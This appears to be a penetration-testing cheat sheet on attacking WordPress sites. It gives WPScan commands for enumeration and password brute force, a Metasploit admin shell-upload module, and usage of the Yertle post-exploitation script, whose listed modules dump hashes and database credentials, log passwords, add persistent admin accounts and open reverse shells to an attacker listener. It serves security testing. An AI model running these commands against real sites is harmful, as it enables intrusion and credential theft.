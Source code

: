 # Web applications - CMS WordPress

### Overview

WordPress is a free and open-source content management system (CMS) developed by
the WordPress.org foundation and based on PHP and MySQL.

WordPress is, by far, the most popular website management system in use with a
CMS market share of nearly sixty percent and used by more than 60 million
websites, including 30.6% of the top 10 million websites as of April 2018.

WordPress' plugin architecture allows users to extend the features and
functionality of a website or blog. As of March 2017, WordPress has over
55,286 plugins available.

### WordPress default URL

The following files and directories can be found on a default installation of
WordPress:

```
index.php
license.txt
readme.html
wp-activate.php
wp-admin
wp-app.php
wp-atom.php
wp-blog-header.php
wp-comments-post.php
wp-commentsrss2.php
wp-config-sample.php
wp-content
wp-cron.php
wp-feed.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-pass.php
wp-rdf.php
wp-register.php
wp-rss2.php
wp-rss.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php
...
```

Refer to the SecLists' `Discovery/Web-Content/CMS/wordpress.fuzz.txt` wordlist
for a more exhaustive list of URL.

### WPScan

WPScan is a well-known vulnerability scanner written in Ruby for WordPress
which focus on vulnerabilities in WordPress core, themes, and plugins.

The WPScan vulnerability database is public and count, as of December 2018,
11665 vulnerabilities. The database is hosted on the following host:

```
https://wpvulndb.com/
```

Usage:

```
# Update the WordPress Core, themes and plugins vulnerability database
wpscan --update

wpscan --url <URL>

# Enumerate installed plugins | themes | users | timthumbs
wpscan --url <URL> --enumerate < p | t | u | tt >

# Wordlist password brute force on enumerated users using 50 threads
wpscan --url <URL> --wordlist <WORDLIST_PASSWORDS> --threads 50

# Wordlist usernames and password brute force using 50 threads
wpscan <URL> (--username <USERNAME> | --usernames <WORDLIST_USERNAMES>) --wordlist <WORDLIST_PASSWORDS> --threads 50
```

### Administrator to RCE

The tools presented below require valid WordPress administrator credentials.

###### Metasploit

The Metasploit module `exploit/unix/webapp/wp_admin_shell_upload` can be used
to generate a plugin packed with a Metasploit payload and upload it to the
WordPress server.

```
msf> use exploit/unix/webapp/wp_admin_shell_upload
```

###### WPForce Yertle

Part of the WPForce suite of Wordpress attack tools, Yertle is a WordPress
post-exploitation python script.

The following modules are implemented:

```
beef            Injects a BeEF hook into website
dbcreds         Prints the database credentials
exit            Terminate the session
hashdump        Dumps all WordPress password hashes
help            Help menu
keylogger       Patches WordPress core to log plaintext credentials
keylog          Displays keylog file
meterpreter     Executes a PHP meterpreter stager (php/meterpreter/reverse_tcp) to connect to metasploit
persist         Creates an admin account that will re-add itself
quit            Terminate the session
shell           Sends a TCP reverse shell to a netcat listener
stealth         Hides Yertle from the plugins page
```

Usage:

```
# Bind OS shell including the modules above
python yertle.py -u <USERNAME> -p <PASSWORD> -t <URL> -i
os-shell> help | hashdump | persist | whoami | ...

# Reverse OS shell - works with a netcat listener
python yertle.py -u <USERNAME> -p <PASSWORD> -t <URL> -r -li <LHOST> -lp <LPORT>
```

